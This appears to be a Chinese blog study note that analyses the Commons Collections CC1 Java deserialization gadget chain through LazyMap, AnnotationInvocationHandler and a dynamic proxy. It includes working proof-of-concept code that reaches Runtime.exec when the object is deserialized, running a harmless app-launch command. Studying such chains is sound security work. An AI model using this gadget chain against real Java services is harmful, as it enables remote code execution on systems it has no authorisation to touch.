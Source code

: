 我们要找从readobject方法走到LazyMap的get方法的调用流程，但是未找到readObject方法直接调用它

然后我们发现AnnotationInvocationHandler的invoke方法调用了get方法

![image-20250218144625646](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218144625775.png)

且memberValues可控，在构造函数里被赋值

![image-20250218144658629](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218144658712.png)

AnnotationInvocationHandler的readObject方法里调用了memeberValues的entryset()方法

![image-20250218152844772](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218152844906.png)

初始化一个AnnotationInvocationHandler对象，利用代理类，创建一个map代理实例，在readObject中，走到memeberValues的entryset()方法时，会触发代理机制，进入invoke方法，在初始化时，把memberValues赋值为LazyMap，走到LazyMap.get方法，从而执行命令

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/NeteaseMusic.app"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap<Object, Object> map = new HashMap<>();
Map<Object, Object> decorate = LazyMap.decorate(map, chainedTransformer);
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, decorate);
Map newMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
Object o = constructor.newInstance(Target.class, newMap);
serialize(o);
unserialize("ser.bin");
```

![image-20250218154940022](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218154940156.png)

Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);//创建了一个实现了 `Map` 接口的代理对象。动态代理可以在运行时创建对象，并且拦截对该对象的所有方法调用。

AnnotationInvocationHandler的readObject方法中执行了memberValues.entrySet()，memberValues被赋值为LazyMap（调用了map对象的方法）从而触发了invoke方法
